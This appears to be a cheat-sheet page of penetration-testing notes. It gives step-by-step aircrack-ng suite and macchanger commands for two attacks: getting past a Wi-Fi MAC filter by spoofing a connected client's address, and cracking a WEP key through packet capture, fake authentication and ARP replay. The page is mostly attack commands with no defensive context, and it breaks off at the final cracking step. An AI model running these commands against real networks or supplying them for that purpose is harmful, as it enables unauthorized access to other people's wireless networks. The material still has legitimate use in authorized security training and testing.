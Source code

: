     - Bypassing MAC Filters
        1. **Scan for Networks**:
            
            ```
            airodump-ng mon0
            
            ```
            
        2. **Identify Connected Clients**:
            
            ```
            airodump-ng -c <channel> -a -bssid <AP BSSID> mon0
            
            ```
            
        3. **Spoof MAC Address**:
            
            ```
            macchanger -m <legitimate MAC address> wlan0
            ifconfig wlan0 up
            
            ```
            
- Cracking WEP Networks
    1. **Monitor Mode**:
        
        ```
        airmon-ng start wlan0
        
        ```
        
    2. **Identify Target**:
        
        ```
        airodump-ng mon0
        
        ```
        
    3. **Capture Data Packets**:
        
        ```
        airodump-ng mon0 --bssid <AP BSSID> --channel <channel> --write <filename>
        
        ```
        
    4. **Fake Authentication**:
        
        ```
        aireplay-ng -1 3 -a <AP BSSID> mon0
        
        ```
        
    5. **ARP Request Replay**:
        
        ```
        aireplay-ng -3 -b <AP BSSID> -h <mon0 MAC address> mon0
        
        ```
        
    6. **Crack WEP Key**:
        
        ```
        aircrack-ng <capture file>.cap
        